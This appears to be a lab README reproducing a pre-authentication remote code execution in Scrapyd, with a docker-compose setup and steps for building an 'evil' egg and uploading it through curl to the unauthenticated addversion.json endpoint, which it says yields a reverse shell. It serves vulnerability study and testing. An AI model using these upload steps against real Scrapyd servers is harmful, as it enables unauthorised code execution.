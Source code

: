 # Scrapyd Pre-Auth Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)
[PT-BR(Portuguese version)](./README.pt-br.md)

Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker-compose up -d
```

After scrapyd is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:

![](1.png)
